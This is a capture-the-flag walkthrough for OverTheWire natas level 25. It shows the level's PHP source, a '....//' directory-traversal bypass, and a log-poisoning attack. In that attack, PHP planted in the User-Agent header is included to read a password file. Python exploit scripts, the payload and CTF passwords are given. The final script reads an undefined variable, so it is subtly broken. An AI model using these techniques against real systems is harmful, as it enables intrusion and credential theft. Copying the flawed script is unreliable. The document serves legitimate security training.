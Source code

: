 ```yaml
---
title: natas 25 walkthrough
description: over the wire natas 25
layout: libdoc_page
date: 1111-11-11
eleventyNavigation:
    key: natas-25 OverTheWire CTFs
    parent: OverTheWire CTFs
    title: natas 25 walkthrough
    order: 30
---
```

## Description
> Username: natas25
> 
> URL:      http://natas25.natas.labs.overthewire.org

### Source Code
```php
<?php
// cheers and <3 to malvina
// - morla

function setLanguage()
{
    /* language setup */
    if (array_key_exists("lang", $_REQUEST))
        if (safeinclude("language/" . $_REQUEST["lang"]))
            return 1;
    safeinclude("language/en");
}

function safeinclude($filename)
{
    // check for directory traversal
    if (strstr($filename, "../")) {
        logRequest("Directory traversal attempt! fixing request.");
        $filename = str_replace("../", "", $filename);
    }
    // dont let ppl steal our passwords
    if (strstr($filename, "natas_webpass")) {
        logRequest("Illegal file access detected! Aborting!");
        exit(-1);
    }
    // add more checks...

    if (file_exists($filename)) {
        include($filename);
        return 1;
    }
    return 0;
}

function listFiles($path)
{
    $listoffiles = array();
    if ($handle = opendir($path))
        while (false !== ($file = readdir($handle)))
            if ($file != "." && $file != "..")
                $listoffiles[] = $file;

    closedir($handle);
    return $listoffiles;
}

function logRequest($message)
{
    $log = "[" . date("d.m.Y H::i:s", time()) . "]";
    $log = $log . " " . $_SERVER['HTTP_USER_AGENT'];
    $log = $log . " \"" . $message . "\"\n";
    $fd = fopen("/var/www/natas/natas25/logs/natas25_" . session_id() . ".log", "a");
    fwrite($fd, $log);
    fclose($fd);
}
?>
<?php foreach(listFiles("language/") as $f) echo "<option>$f</option>"; ?>
<?php
session_start();
setLanguage();

echo "<h2>$__GREETING</h2>";
echo "<p align=\"justify\">$__MSG";
echo "<div align=\"right\"><h6>$__FOOTER</h6><div>";
?>
```

---
## Progress
### Observation
User can control the value of `$_SERVER['HTTP_USER_AGENT']` and `$_REQUEST`.
http://natas25.natas.labs.overthewire.org/language/en properly prints the php code.
When accessing http://natas25.natas.labs.overthewire.org/logs/natas25_tpigqjsqu34iqeg3rcavtq3d2h.log, I got an internal server error. Accessing http://natas25.natas.labs.overthewire.org/natas/logs/natas25_refg9pem9ia3qh86tf2gd2gu2h.log gave us 404.
The `include` function will print all the content in the included file, and treating the content in php code block as a part of code.
### Plan
Since the service did not fully block the relative file input. It just makes `../` be empty. Therefore, we can construct `....//` to make the processed string be `../`. One cannot construct a string containing `natas_passwd`, since the service will terminate. 
Use `$_SERVER['HTTP_USER_AGENT']` to access the `natas_passwd`, and use `$_REQUEST` to access the log file.
### Gathering Info
#### Structure of Directory
Guess the language directory is under `/var/www/natas/natas25/natas25`. 
Query `http://natas25.natas.labs.overthewire.org/?lang=....//logs/natas25_refg9pem9ia3qh86tf2gd2gu2h.log` give us

> [13.02.2024 04::04:40] Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 "Directory traversal attempt! fixing request."

Great! It seems the plan would work.
### Pwn
#### First Try
```python
import requests
from bs4 import BeautifulSoup
from requests.auth import HTTPBasicAuth

username = "natas25"
password = "O9QD9DZBDq1YpswiTM5oqMDaOtuZtAcx"
authentication = HTTPBasicAuth(username, password)

def get_content(response):
    soup = BeautifulSoup(response.text, 'html.parser')
    content = soup.select('#content')
    return content.__str__()

def main():
    main_url = "http://natas25.natas.labs.overthewire.org/"
    with open("./natas_pwn.php", "r") as f:
        header = {
            "User-Agent": f.read(),
        }
    response = requests.get(main_url, auth=authentication, headers=header)
    session_id = response.cookies["PHPSESSID"]
    log_file_path = "?lang=....//logs/natas25_" + session_id + ".log"
    response = requests.get(main_url+log_file_path, auth=authentication, cookies=response.cookies)
    print(get_content(response))

main()
```
Get 
> [13.02.2024 04::16:02] python-requests/2.31.0 "Directory traversal attempt! fixing request."

User agent injection failed.
Try to send the second request with the same header. Succeeded! 
#### Final
script
```python
import requests
from bs4 import BeautifulSoup
from requests.auth import HTTPBasicAuth

username = "natas25"
password = "O9QD9DZBDq1YpswiTM5oqMDaOtuZtAcx"
authentication = HTTPBasicAuth(username, password)

def get_content(response):
    soup = BeautifulSoup(response.text, 'html.parser')
    content = soup.select('#content')
    return content.__str__()

def main():
    main_url = "http://natas25.natas.labs.overthewire.org/"
    with open("./natas_pwn.php", "r") as f:
        header = {
            "User-Agent": f.read(),
        }
    req = requests.get(main_url, auth=authentication, headers=header)
    session_id = response.cookies["PHPSESSID"]
    log_file_path = "?lang=....//logs/natas25_" + session_id + ".log"
    response = requests.get(main_url+log_file_path, auth=authentication, cookies=response.cookies, headers=header)
    print(get_content(response))

main()
```
payload (`natas_pwn.php`)
```php
<?php echo fread(fopen("/etc/natas_webpass/natas26", "r"),filesize("/etc/natas_webpass/natas26")); ?>
```
8A506rfIAXbKKk68yJeuTuRq4UfcK70k

---
## Hint

---
## Solving
### Category
- 
### Techniques
- 

### Tools
- 
